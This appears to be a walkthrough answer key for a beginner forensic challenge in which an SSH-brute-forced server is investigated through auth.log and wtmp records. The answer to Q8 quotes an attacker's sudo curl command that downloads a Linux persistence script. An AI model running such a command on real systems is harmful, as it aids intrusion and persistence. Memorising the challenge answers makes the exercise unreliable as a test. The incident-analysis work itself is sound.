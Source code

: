 ##### Sherlock Scenario

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

___

### Q1: Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

#### A: 65.2.161.68

Opening the auth.log file we see a lot of entries about Invalid user from the same ip, i would assume that this ip is the attacker's.

![](../../Img/Pasted%20image%2020250425142803.png)

___

### Q2: The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

#### A: root

Looking further down we can find the username (searching for success didn't work, but accepted works)

![](../../Img/Pasted%20image%2020250425143038.png)

___

### Q3: Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

#### A: 2024-03-06 06:32:45

In the wtmp file (after utmpdump bc u cant open the file just like that). We search for the root acc and the ip of the attacker and find the answer

![](../../Img/Pasted%20image%2020250425144054.png)

___

### Q4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

#### A: 37

This one is in the auth.log file, following the path of this questions, we can assume that it is asking for the manual login. (as oppose to the automated one, that being the first successful login of root with the attacker ip)

![](../../Img/Pasted%20image%2020250425144551.png)

___

### Q5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

#### A: cyberjunkie

In the same file, a little bit below we can see that a new user is created, and the modifications done to this user too.

![](../../Img/Pasted%20image%2020250425144753.png)

___

### Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

#### A: T1136.001

In the matrix (https://mitre-attack.github.io/attack-navigator/), we search first the persistence column, then for acc creation, and for the sub technique we select the appropiate (this been an acc created on the system itself it's a local acc)

![](../../Img/Pasted%20image%2020250425145401.png)

___

### Q7: What time did the attacker's first SSH session end according to auth.log?

#### A: 2024-03-06 06:37:24

In the file just look for disconnect for session 37

![](../../Img/Pasted%20image%2020250425145457.png)

___

### Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

#### A: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Just below the last question we see the answer.

![](../../Img/Pasted%20image%2020250425145615.png)

Tags: [Log Analysis](../../Index/Log%20Analysis.md) [Mitre](../../Index/Mitre.md) 